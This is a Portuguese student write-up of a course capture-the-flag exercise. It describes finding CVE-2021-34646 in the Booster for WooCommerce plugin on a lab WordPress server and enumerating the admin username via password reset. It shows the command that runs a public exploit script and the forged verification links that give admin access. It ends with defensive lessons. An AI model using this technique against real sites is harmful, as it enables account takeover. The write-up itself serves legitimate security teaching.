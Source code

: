 # Semana 3

## CTF - Wordpress CVE

### Parte 1

Acedemos à página **http://ctf-fsi.fe.up.pt:5001**, que é um servidor WordPress. De seguida procuramos pelo site informações sobre as suas dependências, acabando por descobrir 3:

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3

De seguida, procuramos informações sobre os CVEs associados a cada plugin (versão correspondente). Acabamos por nos aperceber que o CVE-2021-34646 seria o mais adequado, pois permitia fazer login como outro utilizador. 

A resposta à primeira parte do CTF é então a seguinte: 

````
flag{CVE-2021-34646}
````

### Parte 2

Ao descobrir a vulnerabilidade do site, foi possível obter um script em Python para atacar o site. No entanto, para utilizar o script era necessário primeiramente fazer um pedido de reset de password. 

Como é possível descobrir se um username existe ou não quando se realiza um pedido de reset de password, testamos o username "admin". Verificando-se que este existe, realizamos o pedido de reset.
Como normalmente o id do admin é igual a 1, o próximo passo foi correr o script em python da seguinte maneira.

````
$ python3 script.py http://ctf-fsi.fe.up.pt:5001 1
````
Que nos deu estes resultados

````
#0 link for hash 1dc5a859697e220af9decfc1e158ebec:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMWRjNWE4NTk2OTdlMjIwYWY5ZGVjZmMxZTE1OGViZWMifQ

#1 link for hash e14231468781c7aad7137a611652e35a:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZTE0MjMxNDY4NzgxYzdhYWQ3MTM3YTYxMTY1MmUzNWEifQ

#2 link for hash 185893239b043ef2bcd6cf01b6007db4:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMTg1ODkzMjM5YjA0M2VmMmJjZDZjZjAxYjYwMDdkYjQifQ

````

O que o script faz é formar um link de validação de login com o token codificado através da hora atual.

Ao aceder a um destes links, temos então acesso à conta de administrador do site. 
De seguida seguimos o guião e encontramos a flag num post privado. 

````
flag{please don't bother me}
````


### Vulnerabilidades

Após a resolução deste CTF, foi possível concluir que tipo de melhorias seria necessário fazer para melhorar a segurança do site.

1. Manter sempre as versões das dependências atualizadas ou em versões estáveis(sem vulnerabilidades conhecidas)

2. Aquando o pedido de mudança de passe, não revelar a existência ou não existência de username/e-mail.Dizer apenas "foi enviado e-mail caso o e-mail/username exista".

